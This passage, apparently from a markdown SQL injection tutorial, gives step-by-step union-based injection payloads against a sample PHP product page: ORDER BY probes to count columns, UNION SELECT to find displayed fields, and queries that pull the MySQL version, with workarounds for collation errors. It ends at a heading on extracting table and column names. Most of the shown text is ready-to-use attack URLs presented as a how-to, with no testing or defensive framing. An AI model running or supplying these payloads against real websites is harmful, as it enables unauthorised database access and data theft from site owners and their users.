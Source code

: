    ```
   http://mysite/products.php?id=5 order by 1/* <-- no error
   ```
   ```
   http://mysite/products.php?id=5 order by 2/* <-- no error
   ```  
   ```
   http://mysite/products.php?id=5 order by 3/* <-- no error
   ```
   ```
   http://mysite/products.php?id=5 order by 4/* <-- We receive an error message: Unknown column '4' in 'order clause'
   ```

   This means the database has 3 columns, because we got an error on the 4th column.
   

#### 3. Checking For The UNION Function

   With the union function we can select more data in one SQL statement.
   ```
   http://mysite/products.php?id=5 union all select 1,2,3/* 
   ```
   
   If some of the numbers are displayed on the screen, i.e. 1 or 2 or 3 the UNION statement works
   

#### 4. Checking The MySQL Version
   Let’s use the following example to check the MySQL Version:
   
   ```
   http://mysite/products.php?id=5 union all select 1,2,3/* 
   ```

   **Note**: if /* is not working or you get some kind of error, then try --
   This is a comment and it's important for our query to work properly.

   After performing the above query, we should see a number returned to the screen, let’s say the number 2 is returned.
   To check the version we just need to replace the number 2 with @@version or version() the output should look similar to this: 
   ```
   http://mysite/products.php?id=5 union all select 1,@@version,3/*
   ```
   if you get an error "union + illegal mix of collations (IMPLICIT + COERCIBLE) ..." then we need to use the convert() function to avoid this error.

   ```
   http://mysite/products.php?id=5 union all select 1,convert(@@version using latin1),3/*
   ```
   We can also use hex() and unhex()

   ```
   http://mysite/products.php?id=5 union all select 1,unhex(hex(@@version)),3/*
   ```   
   
   This will return the MySQL version 



#### 5. Getting Table and Column Name
